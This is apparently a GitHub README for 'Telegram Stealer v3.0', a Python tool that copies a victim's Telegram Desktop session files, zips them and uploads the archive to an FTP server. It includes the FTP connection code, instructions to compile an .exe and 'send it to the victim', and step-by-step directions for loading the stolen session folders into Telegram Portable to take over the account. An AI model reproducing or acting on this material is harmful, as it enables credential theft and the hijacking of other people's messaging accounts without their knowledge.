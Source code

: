 # Telegram Stealer v3.0

This script is designed to retrieve Telegram Desktop access data by copying relevant files and folders to a backup location and archiving them in a zip file. It also provides the ability to upload this archive to an FTP server for remote storage.

## Prerequisites

- Python 3.x
- Required Python packages: `ftplib`

## Usage

1. Clone or download the repository.

2. Open the `Vectr_v3.0.py` file in a text editor.

3. Modify the following variables according to your requirements:

    ```python
    ftp = FTP()
    ftp.set_debuglevel(2)
    ftp.connect('Host_Name', 21)
    ftp.login('User_Name', 'Password')
    ftp.cwd('/htdocs/tgtest')

4. Use auto-py-to-exe-master to create an .exe file following the instructions in the picture below:

    ![Example Image](instructions_images/image0.png)

5. After creating the .exe file, send it to the victim. After the victim runs it, your FTP server will receive an archive with the data.

    You can use, for example, FileZilla to communicate with your FPT server and interact with files

   
6. Download Telegram Portable

    Go to the folder with the downloaded Telegram Portable:
    ![Example Image](instructions_images/image1.png)

    
7. Run Telegram.exe - in the folder tdata it should create files and also the folder D877F783D5D3EF8C, if the folder was not created, try to close Telegram and try again, it is not always created from the first time:
    
    Should looks like this:

    ![Example Image](instructions_images/image2.png)

    Close Telegram

8. Unzip the archive from the FTP server and go through the folder hierarchy until you get to our two main folders connection_hash and map:

    ![Example Image](instructions_images/image3.png)

9. Now, the most important thing, copy all files from the connection_hash folder (from the archive) to the tdata folder (Telegram Portable directory), replacing the required files:

    ![Example Image](instructions_images/image4.png)

10. Next, copy all available folders from the map folder (from the archive) into the tdata folder (Telegram Portable directory), replacing them with the required folders:

    ![Example Image](instructions_images/image5.png)

11. That's all, run Telegram.exe and have fun!